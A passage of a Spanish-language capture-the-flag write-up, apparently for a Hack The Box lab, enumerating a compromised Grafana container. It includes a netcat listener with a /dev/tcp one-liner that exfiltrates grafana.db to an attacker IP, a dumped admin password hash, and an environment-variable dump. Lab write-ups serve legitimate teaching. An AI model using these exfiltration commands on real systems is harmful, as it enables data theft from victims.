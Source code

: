 no podemos usar `ping` ni `ip` pero podemos usar `wget` y recibir respuesta de ips por lo que podemos confirmar que la 172.17.0.1 esta corriendo el servidor web principal
```bash
# ifconfig
/bin/sh: 31: ifconfig: not found
# ping 172.17.0.1
/bin/sh: 32: ping: not found
# wget  172.17.0.1:80/index.php
--2025-05-11 10:20:40--  http://172.17.0.1/index.php
Connecting to 172.17.0.1:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: http://planning.htb/index.php [following]
--2025-05-11 10:20:40--  http://planning.htb/index.php
Resolving planning.htb (planning.htb)... 
```

Encontramos un `.db`
```bash
# find / -type f -name "*db" 2>/dev/null
/var/lib/grafana/grafana.db
```

Me paso el archivo por `tcp`
![[Pasted image 20250511125532.png]]
```bash
nc -lvnp 80 > file #Inside attacker
cat /path/file > /dev/tcp/10.10.10.10/80 #Inside victim
```

Miramos la db pero no encontramos nada interesante ; parece el hash de la password del admin que ya tenemos.

```sql
sqlite> select * from user;
1|0|admin|admin@localhost||58e91b780977c1c34eb2274b75cb8577b215f2634a441fbb555d396edb3285a6c6b3a1f1ebca06e74ab6aa1a6a8edeb729d5|3H8kUvMcCR|cprH3V8GFe||1|1|0||2025-02-28 19:19:54|2025-04-03 12:31:49|0|2025-05-11 10:45:06|0|0|
sqlite> 
```
El archivo .db es un rabbithole


Se me da por revisar las variables de entorno con el comando `env` en en docker:

```bash
# env
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7                                                                                    
AWS_AUTH_EXTERNAL_ID=                                                                                    
SHLVL=1                                                                                                  
HOME=/usr/share/grafana                                                                                  
OLDPWD=/usr/share/grafana                                                                                
AWS_AUTH_AssumeRoleEnabled=true                                                                          
GF_PATHS_LOGS=/var/log/grafana                                                                           
_=echo                                                                                                   
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
```